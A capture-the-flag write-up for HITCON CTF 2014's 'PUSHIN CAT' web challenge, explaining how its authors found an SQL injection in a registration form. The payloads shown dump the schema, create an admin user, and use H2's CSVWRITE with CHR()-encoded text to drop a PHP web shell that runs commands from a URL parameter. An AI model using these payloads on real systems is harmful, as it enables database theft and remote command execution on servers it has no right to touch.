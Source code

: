 # HITCON CTF 2014: PUSHIN CAT

**Category:** Web
**Points:** 350
**Description:**

> http://203.66.14.60/

**Hint:**

> The flag is file based. Try to get shell :P

## Write-up

Basically PUSHIN CAT offers only three functionalities: Login, registration and the deceptive "Get flag". The last one will tell us "You are not admin from X", where X is our IP address.

The displayed IP address quickly leads down a wrong route because trying to forge a local IP address (e.g. 127.0.0.1) with HTTP headers does not work. However, the registration page seems to be vulnerable to a very basic SQL-Injection vulnerability, as it responds wit a "Query Error" to a single quote in the password field (the detail of the error message seems to have increased since we solved the challenge, so now you even get the surrounding query). Even without seeing the query, one can easily guess that it must be an INSERT into the database. After fiddling around with the injection, the format of the SQL query seems to be this one:

    INSERT INTO [something...] VALUES ([some fields], 'INJECTION IN PW', 'IP')

This is great news, since the IP value is output to us when clicking the "Get flag" button. We can further try to obtain the amount of parameters in the query with a multi-INSERT technique: `foo','IP'),(1,2)-- -`. This will insert 2 records into the database. We can continously increase the amount of parameters in the second query until there is no error anymore. This is the case with 4 parameters: `foo','IP'),(1,2,3,4)-- -`.

In order to dump the database schema and content, we can make use of subqueries: The injection syntax is `foo',(select 1))-- -`, where 1 could be any query returning only one row. Additionally, we can use group_concat to group multiple rows together and read out `information_schema.tables` and `information_schema.columns`. From there on we can easily see that the original query roughly looks like this:

    INSERT INTO users (role, username, password, ip) VALUES ('user', $username, $pw (INJECTION HERE), $ip)

Using this knowledge, we can build a multi-INSERT injection to create a user with the role "admin". Logging in with that user and clicking "Get flag" only yields the message "Give shell plz" (IIRC). Again a dead end.

A test confirms another interesting property: Multiple SQL statements are allowed in the injection (which is only the case with very few database drivers), so we can use `;` to add other kinds of queries. But let's first re-check the database engine to know our possibilities: The injection `foo',(select version()))-- -` yields `PostgreSQL 8.1.4  server protocol using H2 1.4.178 (2014-05-02)`. Okay, so... Postgres? However, what is this H2 thingy? As it turns out it is the underlying database engine. In order to exploit the server, we can make use of [all functions](http://www.h2database.com/html/functions.html) this database engine exposes. One of them, called CSVWRITE, seems to be particularly useful to drop files in the web root. The injection would look like this:

    foo','');CALL CSVWRITE('/var/www/html/shell.php', 'SELECT 1')-- -

As can bee seen from the syntax, the second parameter of CSVWRITE is a query. This example would write a file called shell.php in the web root (we guessed that but could also easily check the apache configuration with file reading functions). However, the file would only contain a 1. In order to avoid escaping our own quotes, we can use the `CHR(decimal)` function and the concatenation operator. Here is the resulting injection, using all the tricks:

    foo','');CALL CSVWRITE('/var/www/html/shell.php', 'SELECT CHR(60)||CHR(63)||CHR(112)||CHR(104)||CHR(112)||CHR(32)||CHR(115)||CHR(121)||CHR(115)||CHR(116)||CHR(101)||CHR(109)||CHR(40)||CHR(36)||CHR(95)||CHR(71)||CHR(69)||CHR(84)||CHR(91)||CHR(48)||CHR(93)||CHR(41)||CHR(59)||CHR(32)||CHR(63)||CHR(62)')-- -

In conclusion, a lot of the difficulity of this challenge came from the multiple dead ends and small steps involved. We certainly tried a billion other attacks before finding this exact route to exploit the web application, but we had a lot of fun while doing it ;-) 


## Other write-ups

* none yet
